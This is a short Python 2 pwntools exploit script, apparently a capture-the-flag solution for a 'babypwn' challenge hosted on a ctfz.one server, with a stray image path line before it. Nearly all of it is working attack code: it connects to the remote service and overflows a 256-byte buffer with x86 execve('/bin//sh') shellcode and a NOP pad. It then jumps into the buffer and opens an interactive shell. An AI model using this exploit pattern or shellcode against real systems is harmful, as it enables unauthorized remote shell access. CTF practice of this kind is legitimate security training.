 payload.py:

```
#!/usr/bin/env python2
from pwn import *
def recvlines(lnum):
    global p
    res=""
    for x in range(lnum):
        res+=p.recvline()
    return res
 
host="pwn-03.v7frkwrfyhsjtbpfcppnu.ctfz.one"
port=1234
 
base_buf=0x80492e0
shellcode="\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"
payload=("y"+shellcode).ljust(256,"\x90")+p32(base_buf+1)
p=remote(host,port)
#p=process("./babypwn")
print recvlines(4)
p.sendline("X")
print recvlines(3)
p.sendline(payload)
p.interactive()
```

